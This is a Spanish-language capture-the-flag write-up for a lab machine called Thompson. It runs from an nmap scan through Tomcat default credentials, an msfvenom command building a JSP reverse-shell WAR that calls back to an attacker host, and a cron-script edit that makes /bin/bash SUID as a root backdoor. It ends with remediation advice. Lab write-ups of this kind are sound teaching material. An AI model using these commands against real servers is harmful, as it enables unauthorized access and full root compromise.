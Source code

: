 # Thompson
## Initial Scan
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
```
## Enum
Las cred por defecto tomcat:s3cret estan habilitadas en el servicio Apache Tomcat, esto nos permite acceder a la administración de tomcat
## Exploit
Dado que tenemos acceso de administración al servicio podemos subir archivos en formato war y desplegarlos, lo generamos con el siguiente comando
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=1234 -f war > shell.war
```
Y lo subimos al server, con esto ya tendriamos shell como tomcat, veamos como escalar
## Privesc
Dentro del crontab vemos el siguiente cronjob
```
*  *	* * *	root	cd /home/jack && bash id.sh
```
Veamos si podemos modificar dicho archivo y escalar privilegios mediante este script
```
echo 'chmod +s /bin/bash' >> id.sh
```
Y cuando se ejecute tendremos nuestra backdoor

# Analisís de la intrusión
### Default creds
Mantener las credenciales por defecto en un servicio siempre es una via de entrada que no deberiamos dejar abierta nunca, en este caso fue lo que nos permitio entrar en el servidor
### Unrestricted file uploa
La permisión de subir archivos war sin control desde el menu de Tomcat nos permitio subir una reverse shell permitiendonos full RCE como Tomcat 
### Unsafe cronjob
Ejecutar un archivque no pertenece a root como root sin ningún control es un problema , en este caso abusamos del archivo de id.sh para elevar privilegios

# Solución
### Unrestricted file upload
Cambiando estos settings a false se elimiaria el problema:
```xml
            unpackWARs="true" autoDeploy="true">
```

### Unsafe cronjob
Para poder usar este tipo de cronjobs la mejor opción es que el script este owneado por el root en una carpeta de el root de modo que evitemos este tipo de ataques por manipulación del archivo
